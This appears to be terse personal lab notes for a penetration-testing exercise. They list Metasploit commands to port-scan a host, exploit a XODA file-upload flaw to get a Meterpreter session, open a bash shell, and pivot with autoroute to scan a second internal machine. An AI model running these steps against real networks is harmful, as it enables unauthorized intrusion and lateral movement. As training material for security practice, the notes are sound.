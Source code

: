 - service postgresql start && msfconsole
- workspace -a port_scan
- search portscan
-  use (...) tcp scan ?
- show options 
- set rhosts 
- set ports 

- curl IP 
- xoda
- search xoda 
- use xoda_file_upload
- set rhosts 
- set targeturi /

now for get  meterpter session in victim machinewe want to look for other machines in the same network 
meterpter 
- sysinfo
- shell
- /bin/bash -i 
- ifconfig 
- run autoroute -s 192.168.0.2
- background
- sessions
- seaarch port scan  
- tcp scan 
- set rhosts 192.168.0.3 ( victim inside victim)
- we get open ports
- search udp_sweep to get open udp scan 
- 